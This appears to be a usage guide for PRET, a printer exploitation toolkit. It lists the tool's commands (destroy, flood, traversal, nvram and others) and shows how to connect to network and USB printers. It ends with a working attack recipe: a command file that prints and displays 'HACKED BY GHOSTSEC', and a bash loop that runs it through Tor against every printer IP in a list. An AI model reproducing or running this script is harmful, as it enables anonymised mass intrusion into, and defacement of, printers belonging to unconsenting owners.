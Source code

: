 # PRET

### 1.1 - Help Menu

```
$ ./pret.py <printer_target_IP> pjl

<printer_target_IP>:/> help

Available commands (type help <topic>):
=======================================
append  delete    edit    free  info    mkdir      printenv  set        unlock
cat     destroy   env     fuzz  load    nvram      put       site       version
cd      df        exit    get   lock    offline    pwd       status
chvol   disable   find    help  loop    open       reset     timeout
close   discover  flood   hold  ls      pagecount  restart   touch
debug   display   format  id    mirror  print      selftest  traversal
```

### 1.2 - Usage

In this case we are connecting to the printer that is a ps printer language.

`$ ./pret.py <IP> ps`

Lastly you can connect to local USB printers for example

`$ ./pret.py /dev/usb/lp0 pjl`

### 1.3 - Automated

`$ cat pret_commands.txt`

---

```
print ./message-by-ghostsec.txt
display "HACKED BY GHOSTSEC"
quit
```

`$ cat auto_print_pret.sh`

---

```bash
#!/bin/bash
while read -r line
do
    ip="$line"
    torify ./pret.py $ip pjl -q -i ./pret_commands.txt
done < "./printers_ips.txt"
```
